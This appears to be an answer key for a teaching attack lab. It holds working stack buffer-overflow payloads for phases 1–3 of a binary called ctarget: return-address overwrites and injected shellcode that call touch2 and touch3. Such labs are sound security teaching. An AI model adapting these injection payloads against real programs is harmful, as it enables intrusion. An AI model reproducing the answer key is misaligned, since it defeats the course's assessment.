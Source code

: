 # Solutions

## info

piping into gdb example: ./hex2raw < phase2.txt > rawphase2.txt

## phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q

## phase 2

gcc -c gen_byte_code.s
objdump -d gen_byte_code.o  > gen_byte_code.d

info: move cookie to rdi, push address of touch2 onto stack (this updates the stack pointer also), call retq (which pops return address from stack which points to touch2.

python3 -c 'import sys; sys.stdout.buffer.write( b"\xbf\xfa\x97\xb9\x59" + b"\x68\xec\x17\x40\x00" + b"\xc3" + b"\x00"*29 + b"\x78\xdc\x61\x55" + b"\x00"*4)' | ./ctarget -q

## phase 3

cookie:

0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61

continue at address 0x5561dc78 (first address of buffer);
move memory address of first character of string into rdi (address is 0x5561dc78 + 49... remember: 40-48 is reserved for return address that points at exploit code);
push func address of touch3 onto stack;
return (this takes you to touch3);

python3 -c 'import sys; sys.stdout.buffer.write( b"\x48\xc7\xc7\xa8\xdc\x61\x55" + b"\x68\xfa\x18\x40\x00" + b"\xc3" + b"\x00"*27 + b"\x78\xdc\x61\x55" + b"\x00"*4 + b"\x35\x39\x62\x39\x39\x37\x66\x61\x00")' | ./ctarget -q

